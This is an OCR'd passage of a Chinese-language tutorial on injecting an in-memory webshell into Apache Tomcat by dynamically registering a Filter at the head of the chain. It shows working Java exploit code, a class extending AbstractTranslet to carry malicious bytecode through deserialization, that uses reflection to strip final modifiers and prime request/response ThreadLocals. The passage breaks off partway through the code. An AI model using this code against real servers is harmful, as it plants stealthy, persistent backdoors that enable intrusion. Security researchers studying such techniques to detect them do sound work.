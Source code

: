 没错的，正如标题所说，通过动态注册一个Filter，并且把其放到最前面，这样，我们的Filter就能最先执行了，并且也成为了一个内存Webshell了。

要实现动态注册Filter，需要两个步骤。第一个步骤就是先达到能获取request和response，而第二个步骤是通过request或者response去动态注册Filter

#### 步骤一

首先，我们创建一个继承AbstractTranslet（因为需要携带恶意字节码到服务端加载执行）的TomcatEchoInject类，在其静态代码块中`反射修改ApplicationDispatcher.WRAP_SAME_OBJECT为true，并且对lastServicedRequest和lastServicedResponse这两个ThreadLocal进行初始化`

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

/**

*   @author threedr3am

    */

    public class TomcatEchoInject  extends AbstractTranslet {

static {

try {

/*刚开始反序列化后执行的逻辑*/

//修改 WRAP_SAME_OBJECT 值为 true

Class c = Class.forName(“org.apache.catalina.core.ApplicationDispatcher”);

java.lang.reflect.Field f = c.getDeclaredField(“WRAP_SAME_OBJECT”);

java.lang.reflect.Field modifiersField = f.getClass().getDeclaredField(“modifiers”);

modifiersField.setAccessible(true);

modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);

f.setAccessible(true);

if (!f.getBoolean(null)) {

f.setBoolean(null, true);

}

```
 //初始化 lastServicedRequest
  c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
  f = c.getDeclaredField("lastServicedRequest");
  modifiersField = f.getClass().getDeclaredField("modifiers");
  modifiersField.setAccessible(true);
  modifiersField.setInt(f, f.getModifiers() &amp; ~java.lang.reflect.Modifier.FINAL);
  f.setAccessible(true);
  if (f.get(null) == null) {
    f.set(null, new ThreadLocal());
  }

